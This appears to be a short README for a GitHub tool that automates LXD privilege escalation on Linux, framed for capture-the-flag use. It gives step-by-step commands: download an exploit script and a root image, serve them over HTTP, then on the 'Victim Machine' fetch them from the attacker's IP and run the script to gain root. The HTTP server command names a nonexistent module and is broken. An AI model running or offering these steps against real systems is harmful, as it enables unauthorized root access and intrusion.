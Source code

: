 #  Instructions

### copy the following command in your Machine

 >  wget "https://github.com/CyberJunnkie/LXDAutoPrivilegeEscalator/blob/master/lxd.sh" && wget "https://github.com/CyberJunnkie/LXDAutoPrivilegeEscalator/blob/master/root.tar.gz"

 > Then serve a http server in the directory where you just installed the above files
 > python3 -m simple.http 80

 > Now on Victim Machine type the following command
 
  #### If you are doing a ctf and connected to the vpn,then type your vpn ip in commands below 
 
 > wget "http://10.x.x.x/lxd.sh" && wget "http://10.x.x.x/root.tar.gz" && chmod +x lxd.sh && ./lxd.sh root.tar.gz

  
 


